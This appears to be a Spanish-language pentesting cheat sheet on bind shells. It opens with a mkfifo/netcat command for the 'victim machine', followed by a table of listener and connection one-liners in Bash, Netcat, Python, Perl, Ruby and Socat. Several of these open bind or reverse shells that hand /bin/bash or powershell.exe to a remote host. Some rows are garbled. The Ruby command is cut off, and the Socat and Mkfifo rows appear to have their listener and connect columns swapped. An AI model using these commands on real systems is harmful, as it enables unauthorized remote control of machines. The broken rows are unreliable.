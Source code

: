 La diferencia aquí es que en vez de conectarnos nosotros a la máquina victima es que nosotros estamos escuchando por un puerto para que nos de conexión a nuestra máquina.

```
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f # máquina victima
```

```
nc <IP> 4443 # nuestra máquina
```

| Lenguaje      | Comando para crear el listener                                                                                                                                                                                                                                      | Comando para conectar con el listener                                                                                                                                                                                                                       | Ejemplo de puerto |
| ------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------- |
| Bash          | `nc -lvp <PUERTO>`                                                                                                                                                                                                                                                  | `nc <DIRECCIÓN_IP_DEL_LISTENER> <PUERTO> -e /bin/bash`                                                                                                                                                                                                      | `4444`            |
| Netcat        | `nc -lvnp <PUERTO>`                                                                                                                                                                                                                                                 | `nc <DIRECCIÓN_IP_DE_LISTENER> <PUERTO>`                                                                                                                                                                                                                    |                   |
| Python        | `python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",<PUERTO>));s.listen(1);conn,addr=s.accept();print("[+] Conectado por:",addr[0]);subprocess.Popen(["/bin/bash","-i"],stdin=conn,stdout=conn,stderr=conn)'` | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<DIRECCIÓN_IP_DEL_LISTENER>",<PUERTO>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'` | `5555`            |
| Perl          | `perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(LocalPort,<PUERTO>,Reuse,1,Listen)->accept;$~->fdopen($c,w);STDIN->fdopen($c,r);system$_ while<>;'`                                                                                                      | `perl -e 'use Socket;$i="<DIRECCIÓN_IP_DEL_LISTENER>";$p=<PUERTO>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'`        | `6666`            |
| Ruby          | `ruby -rsocket -e 's=TCPServer.new("<PUERTO>");puts("[+] Escuchando en #{s.addr[0]}:#{s.addr[1]}");conn=s.accept;puts("[+] Conexión de #{conn.peeraddr[2]}:#{conn.peeraddr[1]}");while(cmd=gets);conn.puts` #{cmd.chomp}`;end'`                                     | `ruby -rsocket -e 'exit if fork;c=TCPSocket.new("<DIRECCIÓN_IP_DEL_LISTENER>","<PUERTO>");while(cmd=c.gets);IO.popen(cmd,"r"){                                                                                                                              | io                |
| Netcat        | `nc -lvp <PUERTO>`                                                                                                                                                                                                                                                  | `nc <DIRECCIÓN_IP_DEL_LISTENER> <PUERTO>`                                                                                                                                                                                                                   | `8888`            |
| Socat Linux   | `socat TCP:<TARGET-IP>:<TARGET-PORT> -`                                                                                                                                                                                                                             | `socat TCP-L:<PORT> EXEC:"bash -li"`                                                                                                                                                                                                                        | 4443              |
| Socat Windows | `socat TCP:<TARGET-IP>:<TARGET-PORT> -`                                                                                                                                                                                                                             | `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`                                                                                                                                                                                                              | 4443              |
| Mkfifo        | `nc <ip> <port> -e /bin/bash`                                                                                                                                                                                                                                       | `mkfifo /tmp/f; nc -lvnp 4443 < /tmp/f \| /bin/sh >/tmp/f 2>&1; rm /tmp/f`                                                                                                                                                                                  | 4443              |
